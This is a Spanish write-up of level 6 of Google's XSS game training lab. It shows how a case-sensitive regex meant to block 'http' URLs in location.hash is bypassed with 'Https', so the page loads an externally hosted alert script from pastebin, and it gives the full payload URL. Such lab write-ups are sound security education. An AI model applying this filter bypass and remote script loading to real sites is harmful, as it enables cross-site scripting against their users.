 #[6/6]  Level 6: Follow the 🐇

#Mission Description

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

#Mission Objective

Find a way to make the application request an external file which will cause it to execute an alert(). 

# Write Up Iker 

Primero que nada vamos a mirar el código fuente de la página para analizar correctamente la prueba.

Observando la foto del index.html y su contenido parece que sólamente nos deja cargar los scripts de la carpeta **/static/gadget.js** que luego ejecuta el contenido en el navegador.

```javascript
getGadgetName() 
{ 
  return window.location.hash.substr(1) || "/static/gadget.js";
}
```

Además tiene un código que evita que se pueda cargar scripts desde una URL con el siguiente código:

```javascript
// This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
````

Aquí podemos pensar en dos maneras para ejecutar el código:
  - 1 Intentar modificar el contenido de ```/static/gadget.js```
  - 2 Intentar hacer un **Bypass** de la comprobación de obtener y ejecutar el script mediante una URL 

Vaya, vaya, vaya...se pone algo complicado...

Tras muchas vueltas, hemos elegido la segunda opción por la siguiente razón: **REGEX** y **CASE SENSITIVE**
¿Porque? Porque el Regex de la consulta sólamente verifica que la URL sea **"https?"**, es decir, que si ponemos **"Https?** o ****"hTtps?** o **"hTTps?** etc nos dejaría hacer el Bypass ya que el resultado no coincidiría y podríamos cargar el script desde una URL.

Ahora tenemos que conseguir conlgar nuestro script en alguna URL y montar la URL de la consulta para que pueda ejecutarla.
La mejor página para hacer esto es **www.pastebin.com**. Te permite escribir un código HTML, JavaScript, etc, colgarlo online y ponerle fecha de expiración.

Creamos el script de alerta en pastebin.com y copiamos la URL con el mensaje **ZASCA!**:

```javascript alert('ZASCA!') ```

En este caso hemos creado la siguiente URL: ``` https://pastebin.com/raw/ny1kd5mC```

Y tenemos la siguiente URL completa para pasarsela al navegador:

``` https://xss-game.appspot.com/level6/frame#https://pastebin.com/raw/ny1kd5mC ```

**ERROR**!!! Recordar el **REGEX** que es **CASE SENSITIVE** y que debemos cambiar algún parámetro del https

Ahora quedaría de esta forma (modificamos la **H** del principio del **https** a **MAYUSCULAS** así **Https**:

``` https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/ny1kd5mC ```

Nos muestra un cuadro de texto indicando que hemos pasado de nivel y completado el Juego de XSS de Google :)

Iker Burguera
